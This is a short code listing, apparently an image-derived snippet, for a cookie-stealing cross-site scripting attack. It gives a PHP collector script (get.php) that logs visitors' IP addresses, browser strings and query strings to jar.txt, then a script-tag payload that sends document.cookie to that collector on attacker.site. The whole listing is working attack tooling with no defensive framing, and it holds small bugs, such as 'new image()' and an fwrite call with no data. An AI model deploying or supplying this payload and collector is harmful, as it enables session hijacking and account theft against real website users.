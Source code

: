 ##########################################################################################################

get.php file on web server to write to jar.txt

##########################################################################################################

<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fwrite($fp);
?>

##########################################################################################################

php string to send to above php file

##########################################################################################################

<script> var i = new image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
